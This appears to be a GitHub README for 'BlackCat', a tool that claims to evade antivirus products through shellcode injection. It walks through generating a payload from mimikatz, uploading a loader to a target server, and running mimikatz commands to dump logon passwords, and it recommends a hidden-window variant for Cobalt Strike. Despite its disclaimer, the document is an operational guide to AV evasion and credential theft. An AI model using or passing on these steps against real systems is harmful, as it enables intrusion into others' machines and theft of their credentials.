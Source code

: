lost effectiveness<br>
lost effectiveness<br>

<br><br>
![logo](https://github.com/YongYe-Security/BlackCat/assets/90460865/9af9e436-d26a-4efc-8200-d40f0d895a1b)
<br>
<br>
**Do not use this tool for any unauthorized or illegal network attacks. I take no responsibility for any misuse or illegal activities conducted with this tool.**
<br>
<br>
A tool created for recreational purposes. It has been tested and proven to bypass antivirus software such as McAfee, Avira, 360safe, and others. In addition to static evasion techniques, it also supports dynamic evasion. The core functionality of the tool relies on shellcode injection technology.
It is recommended to refactor the open-source tool to remove certain fingerprints and increase the probability of bypassing antivirus (AV) software. Of course, this tool will be further modified to evade AV detection once again.
The code might not be aesthetically pleasing, and there are currently no plans for open-sourcing or updating it. However, I assure you that there are no backdoors in the code.  
<br>
<br>
**Help**

```
options:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  filename,Files to be loaded.
```

<br>
<br>

**Steps for usage**

1.Generate payload using Admin side,Take mimikatz as an example below.

Note:exeNmae is the software name of the executable file to be used, no suffix is required. Only effective for exe format files.

After execution, two files will be generated: one is the shellcode file (mimikatz.txt) and the other is the attack payload (mimikatz_Payload.txt).

```
BlackCat-Admin_v1.2.exe -f exeName
Example:BlackCat-Admin_v1.2.exe -f mimikatz
```

![Snipaste_23_14-12-38-4-27-174](https://github.com/YongYe-Security/BlackCat/assets/90460865/f59fc9e4-1086-4333-8267-07376af7c26c)


2.Rename Payload

```
ren exeName_Payload.txt Payload.txt
Example:ren mimikatz_Payload.txt Payload.txt
```

3.Upload the loader to the target server to load the tool and execute the command.

You need to upload three files, BlackCat-Agent.exe, exeName.txt, and payload.txt, to the target server.

Remote loading is currently not available. Only local loading solutions are provided.

```
BlackCat-Agent_v1.2.exe exeName.txt  cmd
Example:BlackCat-Agent_v1.2.exe mimikatz.txt "privilege::debug" "sekurlsa::logonpasswords" exit
```

![23-13-45-31-51](https://github.com/YongYe-Security/BlackCat/assets/90460865/ecd81dce-226e-4214-bacc-53650b6ef500)


The difference between BlackCat-AgentCs_v1.2.exe and BlackCat-Agent_v1.2.exe lies in their user interface. BlackCat-AgentCs does not display a terminal or graphical interface, making it suitable for scenarios like Cobalt Strike where stealthiness is required. On the other hand, BlackCat-Agent allows you to view the feedback of command execution in the terminal interface.

<br>
<br>

**Known bug, but currently unable to fix.**

After running the program, all command-line parameters will be passed to the executed tool. The usage of Mimikatz is not affected, and it is also possible to run the Cobalt Strike client.

The initial design intention of the tool was to modularly bypass antivirus (AV) software, but due to these limitations, its usage is restricted. In the future, there are plans to refactor the code and switch to DLL loading and injection methods. However, it still remains a useful tool for Cobalt Strike scenarios.

![Snipaste_23_15-12-21-4-38-571](https://github.com/YongYe-Security/BlackCat/assets/90460865/b87873cb-d799-4be9-80f6-100e8a5ee99e)




To obtain the password for extracting the compressed file, please join our official account's group chat.  YongYe_Security

